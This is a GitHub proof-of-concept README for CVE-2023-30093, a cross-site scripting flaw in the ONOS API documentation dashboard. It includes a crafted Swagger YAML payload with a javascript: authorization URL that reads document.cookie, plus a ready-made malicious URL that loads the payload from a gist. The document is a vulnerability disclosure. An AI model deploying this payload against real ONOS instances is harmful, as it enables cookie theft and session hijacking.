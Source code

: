 # CVE-2023-30093

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.

PoC
------

PoC for CVE-2023-30093: [@edoardottt Youtube video](https://www.youtube.com/watch?v=jZr2JhDd_S8)

Vulnerable endpoint: <http://localhost:8181/onos/v1/docs/>

Payload:

```yaml
swagger: "2.0"
info:
  title: edoardottt XSS
  description: XSS ONOS POC
  version: 1.0.0
host: edoardoottavianelli.it
basePath: /v1
schemes:
  - https

securityDefinitions:
  OAuth2:
    type: oauth2
    flow: accessCode
    authorizationUrl: javascript:alert(document.cookie)//
    tokenUrl: https://example.com/oauth/token
    scopes:
      read: Grants read access
      write: Grants write access
      admin: Grants read and write access to administrative information
```

Malicious URL ready to be delivered: <http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/917636d9b210d0b15c3a10cfff35ab33/raw/659a4ae263287dff740f386db4533ca042203cfe/onos-xss2-poc.yaml>

References
------

- <https://www.edoardoottavianelli.it/CVE-2023-30093>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-30093>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30093>
- <https://github.com/advisories/GHSA-q63q-hwf6-3mw6>
- <https://www.tenable.com/cve/CVE-2023-30093>
- <https://www.opencve.io/cve/CVE-2023-30093>
- <https://avd.aquasec.com/nvd/2023/cve-2023-30093/>
- <https://cve.report/CVE-2023-30093>
- <https://security.snyk.io/vuln/SNYK-JAVA-ORGONOSPROJECT-5497342>

<br>

Useful links while researching for this CVE:

- <https://github.com/swagger-api/swagger-ui/pull/3848>
- <https://github.com/swagger-api/swagger-ui/issues/3847>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef>
- <https://security.snyk.io/vuln/npm:swagger-ui:20171031>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160721>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160901>
